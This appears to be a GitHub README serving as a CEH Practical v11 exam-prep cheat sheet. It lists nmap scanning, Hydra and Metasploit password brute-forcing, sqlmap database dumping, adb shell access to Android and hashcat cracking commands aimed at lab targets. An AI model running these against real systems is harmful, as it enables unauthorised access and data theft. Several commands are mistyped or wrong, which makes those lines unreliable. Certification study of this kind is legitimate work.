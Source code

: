 # Practicemyself

# ........................................................ CEHvs11 ....................................................

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.


### Marks:
```
SQL= 2
Net User= 1
Nmap= 2 to find OS
Wireshark= 3
FTP= 2
Wordpress= 1
Secret File= 1 
Android= 1
Crypto=6
Stegnography= 1
```

## So let's start >>>>>>

### 1. Find the IP target.
 ```
  $ ip addr or
  $ ifconfig
  $ netdiscover -r IP/24
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  
 May be IP targets are same. For me, this is the IP (172.16.0.0/24) for my target.
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  $ wpscan --url IP -u root -P passwdfile.txt
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
  
 I was faced problems with WP Scanner to bruteforicing, I recommend to use Metasploit for bruteforcing in Wordpress passwod.
 keep it mind:- Password wordlist are like same but try to find exact password lists.
  
 Using Metasploit==>
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. Hydra
``` 
 Use for FTP:
     $ hydra -l user -P passlist.txt ftp://IP
 Use for SSH:
     $ hydra -l <username> -P passwdlist.txt IP -t 4 ssh
 Use for Web Post:
     $ hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

- hydra -L usernames.txt -P pass.txt <IP> mysql
- hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
- hydra -V -f -L <userslist> -P <passwlist> ***rdp***://<IP>`
- hydra -P common-snmp-community-strings.txt target.com snmp
- hydra -l Administrator -P words.txt 192.168.1.12 smb t 1
```

### 8. FTP
```
FTP Connect
  $ ftp IP
  
  After connect with FTP go to the file
  $ get file.txt
  $ get file1.txt

When I was first connect from the parot server, I did'nt get the file. So I have connected from winodws machine, then i had got the file easily.   
 
https://www.javatpoint.com/ftp-commands
https://www.serv-u.com/linux-ftp-server/commands
```
### 10. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap IP -sV -p 5555
  
  apt install adb (if not available
  Command:
  $ apt connect IP:5555
  $ adb shell
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 11. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 12. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 13. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 hash calculator
Wpscan
Nmap
Metasploit
Hydra
Wireshark
OWASP ZAP  
RDP
```
### 14. Command Injection (DVWA)
```
DVWA:
Path: C:\wamp64\www\DVWA\hackable\uploads\maybefile

View a file cmd: "type"
Decrypt - https://hashes.com/en/decrypt/hash
```
### 15 SQL Injection with SQLmap:
  ```
  $ sqlmap -u http://site.com?id=1 --cookie="cookies" --risk 3 --level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/?id=1&Submit=Submit" --cookie="cookies1;cookies2" --data="data" --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/cookies.php" --cookie="cookies1;cookies2" --data="data" -p id --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump
```
### 16. Wireshark
```
Filters:
To find DOS (SYN and ACK) : tcp.flags.syn == 1, tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
     Shortcut: Click tools > Credentials

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
```

